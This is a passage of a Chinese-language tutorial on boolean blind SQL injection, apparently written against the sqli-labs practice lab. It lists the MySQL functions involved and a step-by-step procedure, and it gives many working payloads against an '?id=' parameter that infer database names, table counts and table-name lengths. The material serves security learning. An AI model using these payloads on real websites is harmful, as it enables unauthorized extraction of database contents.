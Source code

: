 利用这一特性，我们可以构造payload 通过来页面显示情况来获取数据库数据

#### 布尔盲注常用函数

- ascii() 返回指定字符的ascii码值
- count() 计算结果集的数量
- length() 返回指定字符串的长度
- substr/substring(str,pos,length) 返回截取的子字符串
#### 一般流程

- 求闭合字符
- 求当前数据库长度
- 求当前数据库ascii码值
- 求表名的数量
- 求表名的长度
- 求表名的ascii码值
- 求列名的数量
- 求列名的长度
- 求列名的ascii码值
- 求字段的数量
- 求字段的长度
- 求字段的ascii码值
#### 布尔盲注常见语句

- 求数据库长度
```basic
?id=1' and (length(database())=8) --+
?id=1' and (length(database())>7) --+
?id=-1' or (length(database())>7) --+ # 也可以用大于小于来判断
```

- 求数据库名(可以用字符来比对，也可以用ascii来比对)
```basic
?id=1' and (left(database(),1)='s') --+ #从左向右截取一个字符
?id=1' and (left(database(),2)='se') --+ #从左向右截取两个字符
?id=1' and ascii(substr(database(),1,1)) =115 --+ #从第一个字符开始截取一个字符，也就是第一个字符是's',对应的ascii码是115
？id=1' and ascii(substr(database(),2,1)) =101 --+ #从第二个字符开始截取一个字符，也就是第二个字符'e',对应的ascii码是101
?id=1' and ascii(substr(database(),1,1)) <115 --+ #也可以用<>来比较查找
```

- 求当前数据库中当前表的数量
```basic
?id=1' and 4=(select count(table_name) from information_schema.tables where table_schema=database()) --+
?id=1' and 4=(select count(table_name) from information_schema.tables where table_schema='security') --+
```

- 求当前数据库表名的长度
```basic
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),7,1)) --+
#表名的长度就是substr函数中的7-1=6,这里是针对security数据库的第一个表emails
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),7,1)) --+
#limit 1,1就是security中得到第二个数据库
?id=1' and (length((select table_name from information_schema.tables where table_schema='security' limit 0,1) )=6) --+
#第二种方法使用length来测数据库表名的的长度，通过limit来控制是哪一个表
?id=1' and (length((select table_name from information_schema.tables where table_schema='security' limit 1,1) )=8) --+
```
